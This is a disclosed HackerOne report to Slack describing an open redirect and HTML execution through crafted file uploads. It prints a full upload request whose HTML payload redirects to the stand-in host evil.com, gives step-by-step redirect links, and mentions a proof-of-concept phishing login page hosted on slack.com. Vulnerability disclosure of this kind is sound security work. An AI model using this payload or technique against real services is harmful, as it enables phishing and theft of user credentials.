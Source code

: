 # Open Redirect on slack.com

## Report Details
- **Report ID**: 140447
- **URL**: https://hackerone.com/reports/140447
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-23T10:08:15.137Z
- **Disclosed**: 2016-10-02T18:09:42.737Z

## Reporter
- **Username**: sudotop
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Hi, my report has tow interesting parts here
First
======
In this report #104087 the attacker uploads a svg file to execute JavaScript and redirect to any domain
I have found a new way to execute full html files on victim machine instead of downloading them by adding a bunch of binary chars before html code

### Please have a look at screenshots attached here to get what I mean.
### Steps
1. login to your account and send the following request:

Note: I can't get binary chars displayed here so I attached a file containing the whole request

```
POST /api/files.uploadAsync HTTP/1.1
Host: upload.slack.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Length: 886
Content-Type: multipart/form-data; boundary=---------------------------89481407720596
Origin: https://<subdomain>.slack.com
Connection: keep-alive

-----------------------------89481407720596
Content-Disposition: form-data; name="file"; filename="pixel.png"
Content-Type: text/html

<bunch_of_binary_chars_here>
<html>
<script>
window.location='http://www.evil.com';
</script>
</html>
-----------------------------89481407720596
Content-Disposition: form-data; name="filename"

pixel
-----------------------------89481407720596
Content-Disposition: form-data; name="token"

<token>
-----------------------------89481407720596
Content-Disposition: form-data; name="channels"

<channels>
-----------------------------89481407720596
Content-Disposition: form-data; name="title"

pixel
-----------------------------89481407720596
Content-Disposition: form-data; name="initial_comment"

hi
-----------------------------89481407720596--

```

2. Make public link for "pixel" file "https://files.slack.com/files-pri/T1ARLSGBS-F1AU0FTGR/pixel?pub_secret=094ca97aee"

3. Complete link "https://slack.com/checkcookie?redir=https://files.slack.com/files-pri/T1ARLSGBS-F1AU0FTGR/pixel?pub_secret=094ca97aee"

4. Whenever a victim clicks the previous link he will get to "http://www.evil.com"

Second
======
I have found another way to make the redirect link very simple and more tricky
The attacker can just use slack main domain using this link "https://slack.com/files-pri/T1ARLSGBS-F1AU0FTGR/pixel?pub_secret=094ca97aee" to redirect victims to "http://www.evil.com".

There are many other attack scenarios can be achieved here cause the attacker has full control over file content and name also.

Here is a simple phishing login page I have created as PoC that could trick even advanced users to submit their credentials to the attacker "https://slack.com/files-pri/T1ARLSGBS-F1AVC33M5/login?pub_secret=e80f120635" 

Attacker could do tons of fun stuff to the files, to my mind come Viruses, Exploits, Illegal Content, etc.

## Attachments
- slack.com_URL_Redirect.png
- slack.com_phishing_login_page.png
- Slack_HTML_POST.png
- request.txt
